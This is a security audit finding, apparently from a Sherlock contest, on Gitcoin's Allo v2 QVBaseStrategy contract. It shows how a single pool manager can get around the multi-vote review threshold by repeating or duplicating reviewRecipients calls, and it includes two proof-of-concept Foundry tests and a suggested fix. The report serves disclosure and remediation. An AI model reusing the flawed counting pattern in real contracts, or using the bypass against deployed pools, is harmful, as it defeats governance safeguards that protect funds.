 Keen Amethyst Guppy

medium

# Managers can bypass threshold permissions for change recipient status in QVBaseStrategy.sol
In `QVBaseStrategy` recipient status is supposed to be updated if votes count for the recipient is not less than a specified on initialization threshold value. For example, if threshold value is 2, then at least 2 managers must vote for a status change to change the status. However, managers can bypass this requirement either by calling `reviewRecipients` twice, or by passing duplicated recipient statuses when calling `reviewRecipients`.

## Vulnerability Detail
In function [reviewRecipients](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol#L254-L288) `reviewsByStatus` mapping is updated every time the function is called, and it does not matter if `msg.sender` has already reviewed the recipients:

```solidity
if (recipientStatus == Status.None || recipientStatus == Status.Appealed) {
    revert RECIPIENT_ERROR(recipientId);
}

reviewsByStatus[recipientId][recipientStatus]++;

if (reviewsByStatus[recipientId][recipientStatus] >= reviewThreshold) {
    Recipient storage recipient = recipients[recipientId];
    recipient.recipientStatus = recipientStatus;

    emit RecipientStatusUpdated(recipientId, recipientStatus, address(0));
}
```

Therefore, if a manager calls the function twice with the same parameters, the votes count will be increased twice.

## Impact
Managers can bypass threshold requirement for a recipient status change.

## Code Snippet
Here are the tests for `QVSimpleStrategy` (QVSimpleStrategyTest) that confirm the issue. The strategy in the test requires 2 votes to change status for a recipient.

```solidity
function test_registerRecipient_bypassThreshold1() public {
      address recipientId = __register_recipient();

      QVBaseStrategy.Recipient memory receipt = qvStrategy().getRecipient(recipientId);

      assertEq(uint8(receipt.recipientStatus), uint8(IStrategy.Status.Pending));

      address[] memory recipientIds = new address[](1);
      recipientIds[0] = recipientId;

      IStrategy.Status[] memory recipientStatuses = new IStrategy.Status[](1);
      recipientStatuses[0] = IStrategy.Status.Accepted;

      vm.startPrank(pool_manager1());
      qvStrategy().reviewRecipients(recipientIds, recipientStatuses);
      qvStrategy().reviewRecipients(recipientIds, recipientStatuses);
      vm.stopPrank();

      receipt = qvStrategy().getRecipient(recipientId);

      assertEq(uint8(receipt.recipientStatus), uint8(IStrategy.Status.Accepted));
  }

  function test_registerRecipient_bypassThreshold2() public {
      address recipientId = __register_recipient();

      QVBaseStrategy.Recipient memory receipt = qvStrategy().getRecipient(recipientId);

      assertEq(uint8(receipt.recipientStatus), uint8(IStrategy.Status.Pending));

      address[] memory recipientIds = new address[](2);
      recipientIds[0] = recipientId;
      recipientIds[1] = recipientId;

      IStrategy.Status[] memory recipientStatuses = new IStrategy.Status[](2);
      recipientStatuses[0] = IStrategy.Status.Accepted;
      recipientStatuses[1] = IStrategy.Status.Accepted;

      vm.startPrank(pool_manager1());
      qvStrategy().reviewRecipients(recipientIds, recipientStatuses);
      vm.stopPrank();

      receipt = qvStrategy().getRecipient(recipientId);

      assertEq(uint8(receipt.recipientStatus), uint8(IStrategy.Status.Accepted));
  }
```

## Tool used

Manual Review

## Recommendation

I would recommend to check whether `msg.semder` has already reviewed the recipient.
